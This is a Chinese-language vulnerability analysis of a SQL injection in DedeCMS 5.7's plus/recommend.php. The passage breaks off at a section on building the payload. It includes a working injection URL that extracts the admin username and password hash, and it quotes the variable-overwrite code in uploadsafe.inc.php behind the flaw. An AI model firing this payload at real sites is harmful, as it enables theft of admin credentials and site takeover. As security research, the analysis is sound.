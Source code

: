 ```yaml
---
description: 记录DedeCMS5.7漏洞信息
---
```


# DedeCMS5.7漏洞利用与分析

 源码链接：[https://pan.baidu.com/s/12PPzu6yho-ae1XRsQs5zxw](https://pan.baidu.com/s/12PPzu6yho-ae1XRsQs5zxw) 提取码：ay3g

## 漏洞复现

在分析漏洞形成原因之前，先来看一下这个漏洞复现情况。

查看系统的发布日期，直接访问 网站url/data/admin/ver.txt

![](../.gitbook/assets/image%20%2860%29.png)

此时间发布的版本在plus/recommend.php中存在注入漏洞，在此演示直接爆出用户名和密码散列值的payload

```text
/plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\' or mid=@`\'` /*!50000union*//*!50000select*/1,2,3,(select CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin` limit+0,1),5,6,7,8,9%23@`\'`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=111
```

![&#x6F0F;&#x6D1E;&#x8868;&#x73B0;](../.gitbook/assets/image%20%2871%29.png)

## 漏洞分析

打开recommend.php,查看代码，第12行程序引入了一个common.inc.php

![](../.gitbook/assets/image%20%2855%29.png)

跟进去看一下

![](../.gitbook/assets/image%20%2828%29.png)

只要提交的URL中不包含cfg\_\|GLOBALS，即可通过检查。继续往下看代码

![](../.gitbook/assets/image%20%2814%29.png)

在第95行引入了uploadsafe.inc.php文件，查看文件代码，在第29行存在一个漏洞。

```text
$$_key = $_FILES[$_key]['tmp_name'] = str_replace("\\\\", "\\", $_FILES[$_key]['tmp_name']);
```

传入$\_key为type时 该语句就变成了对$type的赋值，导致了对$type变量覆盖，而在recommend.php中第38行，用到了$type变量来拼接sql语句。

```text
$arcRow=$dsql->GetOne("SELECT s.*,t.* FROM `#@__member_stow` AS s LEFT JOIN `#@__member_stowtype` AS t ON s.type=t.stowname WHERE s.aid='$aid' AND s.type='$type'");
```

## 如何构造payload

我们已经知道了漏洞存在的点，该如何达到目的那？



